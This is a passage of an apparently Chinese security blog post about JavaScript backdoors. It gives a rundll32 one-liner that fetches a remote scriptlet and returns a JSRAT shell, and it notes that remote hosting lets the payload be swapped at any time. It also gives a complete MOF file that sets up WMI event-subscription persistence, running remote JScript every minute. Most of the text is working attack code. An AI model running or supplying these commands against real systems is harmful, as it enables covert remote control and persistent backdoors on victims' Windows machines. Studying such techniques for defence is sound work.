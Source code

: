 为区别演示，已上传至另一文件testJSRAT：  
[https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/testJSRAT](https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/testJSRAT)

cmd下执行：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/testJSRAT")

```

执行后弹回JSRAT的shell

3、分析
----

这种方式有如下优点：  
**a.**再次简化了JSRAT的启动代码，只需要执行GetObject()  
**b.**由于是远程执行wsc文件，所以payload随时可以更改，代码可以随时升级

0x03 WMI Backdoor
=================

* * *

通过WMI不仅可以定时执行程序，还能定时执行脚本  
定时执行程序的方法之前介绍过，此处跳过，下面介绍一下定时执行脚本的方法

WMI支持vbs和js脚本，这里只介绍启动js脚本的方法

1、mof
-----

注意转义字符  
"用\"表示  
内容如下：

```
pragma namespace("\\\\.\\root\\subscription")    

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};    

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};

```
